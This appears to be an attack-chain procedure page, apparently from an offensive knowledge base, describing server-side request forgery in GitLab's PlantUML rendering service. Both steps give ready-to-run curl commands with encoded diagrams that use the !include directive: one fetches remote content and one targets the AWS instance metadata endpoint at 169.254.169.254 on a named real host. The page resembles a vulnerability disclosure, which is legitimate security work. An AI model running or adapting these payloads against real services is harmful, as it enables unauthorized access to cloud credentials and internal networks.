

# SSRF Exploitation in GitLab PlantUML Service to Access AWS Instance Metadata

Multi-stage attack chain demonstrating SSRF in the PlantUML rendering service hosted at plantuml.pre.gitlab.com, allowing unauthorized access to internal network endpoints like the AWS instance metadata service.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or curl for submitting diagrams

### Target Environment

- GitLab PlantUML rendering service (e.g., https://plantuml.pre.gitlab.com/)
- No authentication required for public endpoint
- Network access to the internet

### Initial Access Requirements

- Public access to the PlantUML UML/PNG endpoint
- No credentials needed
- Attacker must be able to encode and submit PlantUML diagrams via URL or POST

## Detailed Attack Procedures

### Step 1: Submit PlantUML Diagram with Remote Include
procedure: [[procedures/Exploit-SSRF-via-PlantUML-Include-Directive]]

**Objective**: Access the PlantUML rendering endpoint and submit a diagram that includes a remote resource to test for SSRF vulnerability.

**Instructions**: Encode a basic PlantUML diagram using the !include directive to fetch external content. Submit it via the UML endpoint. For example, use a browser or curl to visit the encoded URL.

Use [[commands/plantuml-submit-basic-include]] to submit a diagram that includes website content:

```bash
curl "https://plantuml.pre.gitlab.com/uml/Aov9B2hXKW02AvTyXUByt5I5ufBIj3Hhi9XYPbvoJcbAga96IKc1bRw-eP6vdW4G6bfP65WOS1MNv1TO0m00"
```

**Expected Output**: The server renders a UML diagram incorporating the included remote content, confirming the service processes external fetches.

**Success Indicators**:
- Diagram renders successfully with included content visible
- No immediate errors on remote URL inclusion

### Step 2: Exploit SSRF for Internal Metadata Access
procedure: [[procedures/Exploit-SSRF-via-PlantUML-Include-Directive]]

**Objective**: Modify the diagram to target internal URLs like the AWS metadata endpoint, exploiting SSRF to fetch sensitive internal data.

**Instructions**: Create and submit a PlantUML diagram using the !include directive to target the AWS instance metadata service at 169.254.169.254. Encode and submit via the PNG endpoint for binary output.

Execute [[commands/plantuml-ssrf-aws-metadata]] to trigger the SSRF:

```bash
curl "https://plantuml.pre.gitlab.com/png/Aov9B2hXKW02AvTyXUByt5I5ufBIj3Hhi9XYPbvoJcbAga96IKc1bRw-eP6vdW4G6bfP65WOw7CLb-GNM0C0"
```

**Expected Output**: Initially, the rendered PNG incorporates AWS instance metadata (e.g., JSON data leaked into the diagram); later attempts may timeout due to restrictions.

**Success Indicators**:
- Internal metadata data appears in the rendered output
- Server processes the link-local request without blocking

## Attack Chain Summary

### Key Achievements

1. Confirmed SSRF in PlantUML !include directive allowing remote resource fetches
2. Accessed AWS instance metadata via internal IP 169.254.169.254
3. Demonstrated potential for broader internal network reconnaissance in self-hosted GitLab environments

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---

*Last updated: 2023-10-01T00:00:00Z*
